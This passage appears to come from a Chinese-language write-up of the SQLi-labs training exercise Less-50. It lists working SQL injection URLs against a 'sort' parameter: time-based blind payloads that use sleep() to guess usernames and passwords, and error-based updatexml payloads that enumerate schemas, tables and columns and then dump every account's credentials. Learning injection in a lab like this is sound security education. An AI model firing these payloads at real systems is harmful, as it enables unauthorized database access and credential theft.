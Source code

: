 **判断账户（username）**<br />http://www.web.com/sql/Less-50/?sort=1 and if(substr((select username from security.users limit 0,1),1,1)=‘d’,1,sleep(5))–+<br />使用burp爆破<br />![](https://img-blog.csdnimg.cn/20200727152821981.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=PynXw&originHeight=252&originWidth=827&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断密码（password）**<br />http://www.web.com/sql/Less-50/?sort=1 and if(substr((select password from security.users limit 0,1),1,1)=‘d’,1,sleep(5))–+<br />使用burp爆破<br />![](https://img-blog.csdnimg.cn/20200727152835737.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=XK18K&originHeight=252&originWidth=827&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**将username，password一起进行爆破**<br />http://www.web.com/sql/Less-50/?sort=1 and if(substr((select group_concat(username,password) from security.users limit 0,1),1,1)=‘d’,1,sleep(5))–+<br />![](https://img-blog.csdnimg.cn/20200727152846506.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=bcAOe&originHeight=281&originWidth=837&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**使用concat_ws()函数将username，password进行分割并一起进行爆破**<br />http://www.web.com/sql/Less-50/?sort=1 and if(substr((select group_concat(concat_ws(’-’,username,password)) from security.users limit 0,1),1,1)=‘d’,1,sleep(1))–+<br />![](https://img-blog.csdnimg.cn/20200727152853892.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=EqcTU&originHeight=330&originWidth=845&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 方法二 报错注入
**查看当前数据库**<br />http://www.web.com/sql/Less-50/?sort=1 and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200727151111269.png#crop=0&crop=0&crop=1&crop=1&id=QMx9b&originHeight=106&originWidth=372&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有库**<br />http://www.web.com/sql/Less-50/?sort=1 and updatexml(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200727153314203.png#crop=0&crop=0&crop=1&crop=1&id=Y0FAt&originHeight=84&originWidth=492&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有表**<br />http://www.web.com/sql/Less-50/?sort=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200727153453454.png#crop=0&crop=0&crop=1&crop=1&id=ntDtB&originHeight=57&originWidth=475&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有字段**<br />http://www.web.com/sql/Less-50/?sort=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200727153544801.png#crop=0&crop=0&crop=1&crop=1&id=vnrxZ&originHeight=74&originWidth=449&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有账户和密码**<br />http://www.web.com/sql/Less-50/?sort=1 and updatexml(1,concat(0x7e,(select group_concat(concat_ws('~',username,password)) from security.users),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200727153800220.png#crop=0&crop=0&crop=1&crop=1&id=wkX2R&originHeight=111&originWidth=566&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
